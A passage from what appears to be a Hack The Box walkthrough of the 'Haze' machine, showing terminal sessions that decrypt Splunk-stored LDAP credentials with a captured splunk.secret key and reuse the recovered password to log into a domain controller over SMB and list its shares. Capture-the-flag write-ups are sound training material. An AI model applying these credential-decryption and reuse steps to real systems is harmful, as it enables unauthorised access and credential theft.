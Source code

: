 ```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ cat splunk.secret 
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
```

After the preparation we started `decrypting` the previously collected `hashes` and received an actual useful looking `password` from the file with the `Splunk LDAP Authentication` configuration.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA==
changeme
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw==
password
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ splunksecrets splunk-decrypt -S splunk.secret
Ciphertext: $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
Ld@p_Auth_Sp1unk@2k24
```

| Password              |
| --------------------- |
| Ld@p_Auth_Sp1unk@2k24 |

## Enumerating Port 445/TCP

After a few attempts we figured out the `name schemata` and got working `credentials` of `Paul Taylor`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec smb 10.129.135.234 -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --shares
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.129.135.234  445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.129.135.234  445    DC01             [*] Enumerated shares
SMB         10.129.135.234  445    DC01             Share           Permissions     Remark
SMB         10.129.135.234  445    DC01             -----           -----------     ------
SMB         10.129.135.234  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.135.234  445    DC01             C$                              Default share
SMB         10.129.135.234  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.135.234  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.135.234  445    DC01             SYSVOL          READ            Logon server share
```
